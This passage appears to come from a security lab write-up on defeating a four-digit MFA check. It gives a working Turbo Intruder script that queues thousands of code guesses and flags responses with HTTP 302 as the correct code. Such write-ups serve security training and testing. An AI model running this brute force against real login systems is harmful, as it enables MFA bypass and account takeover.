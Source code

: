 We know that we need 302 as result, considering how application reacts on correct MFA-code.

![picture 77](/assets/images/71ba946c41827d30d6a46dd96fe963e87bdd6eec0a93570c513ce59ac792d5b6.png)

Code used in Turbo Intruder. Only digits to 3000 will be used, but it could've been set to 9999
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=3,
                           requestsPerConnection=4,
                           pipeline=False
                           )
    for i in range(3000):
        engine.queue(target.req, '{:d}'.format(i).zfill(4))
        

@MatchStatus(302)
def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```
